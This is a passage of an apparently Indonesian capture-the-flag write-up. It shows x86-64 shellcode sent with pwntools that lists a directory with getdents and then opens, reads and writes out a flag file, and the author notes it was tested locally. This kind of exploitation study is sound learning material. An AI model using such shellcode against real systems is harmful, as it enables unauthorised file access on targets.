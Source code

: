 ```py
    push 0x2
    pop rax
    syscall

    mov rdi,rax
    mov rsi,rsp
    mov rdx,0x1000
    push 0xd9
    pop rax
    syscall

    mov rdi,1
    mov rsi,rsp
    mov rdx,0x1000
    push 0x1
    pop rax
    syscall

''')

io.sendline(p)
io.interactive()
```

{% endraw %}

**\*Ini tes dijalanin di lokal, karena server sudah mati**

Setelah di jalankan maka kita akan menerima output berupa 0x1000 bytes yang terdapat namafile dari flag (flag berada pada current directory binary atau direktori "ini")
![Nama file flag](/assets/img/Screenshot 2024-07-07 202451.png)

Nah setelah tau nama filenya, langsung aja yak buat assembly untuk baca filenya, tapi pakai sys_open -> sys_read -> sys_write

Full asm code

```asm
    mov rsp, QWORD PTR fs:0x0
    push 0x74
    mov rax,0x78742e6537323438
    push rax
    mov rax,0x6663653839393030
    push rax
    mov rax,0x3839653430326230
    push rax
    mov rax,0x3066383964633864
    push rax
    mov rax,0x3134642d67616c66
    push rax
    mov rdi,rsp
    xor rsi,rsi
    xor rdx,rdx
    push 0x2
    pop rax
    syscall

    mov rdi,rax
    mov rdx,0x60
    mov rsi,rsp
    xor rax,rax
    syscall

    mov rdi,0x1
    mov rdx,0x60
```